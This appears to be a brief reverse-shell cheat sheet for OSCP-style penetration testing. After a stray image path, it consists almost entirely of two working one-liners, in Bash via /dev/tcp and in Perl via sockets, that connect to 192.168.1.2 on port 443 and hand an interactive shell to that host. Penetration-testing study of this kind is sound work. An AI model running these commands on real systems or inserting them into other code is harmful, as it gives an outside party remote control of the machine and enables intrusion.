 # Reverse Shell FULL
Reverse Shell collection for: Pentesting - OSCP

## Bash ##
bash -i >& /dev/tcp/192.168.1.2/443 0>&1

## perl##
perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
